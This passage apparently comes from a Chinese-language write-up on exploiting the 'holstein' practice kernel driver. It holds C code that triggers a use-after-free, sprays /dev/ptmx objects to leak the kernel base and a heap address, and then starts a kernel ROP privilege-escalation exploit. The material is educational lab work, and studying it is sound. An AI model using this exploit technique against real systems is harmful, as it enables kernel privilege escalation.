 ```c

uint64_t g_buf = 0;
uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
int spray[SPRAY_NUM];

int main() {
  int fd1 = open(DEVICE, O_RDWR);
  int fd2 = open(DEVICE, O_RDWR);
  char buf[0x100];

  if (fd1 == -1 || fd2 == -1) {
    perror("open");
    return 1;
  }

  close(fd1);

  for (int i = 0; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  read(fd2, buf, 0x40);

  uint64_t *ptr = (uint64_t *)buf;

  kernel_base = ptr[3] - OPS_OFFSET;
  g_buf = ptr[7] - 0x38;

  printf("[+] kernel_base: 0x%lx\n", kernel_base);
  printf("[+] g_buf: 0x%lx\n", g_buf);

  return 0;
}
```

# kROP

首先想到的还是利用ROP提权，但是我最开始尝试只利用一次UAF，利用代码如下：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define DEVICE "/dev/holstein"
#define SPRAY_NUM 100
#define OPS_OFFSET 0xc39c60

uint64_t g_buf = 0;
uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
int spray[SPRAY_NUM];

uint64_t user_cs, user_ss, user_rflags, user_sp;
```
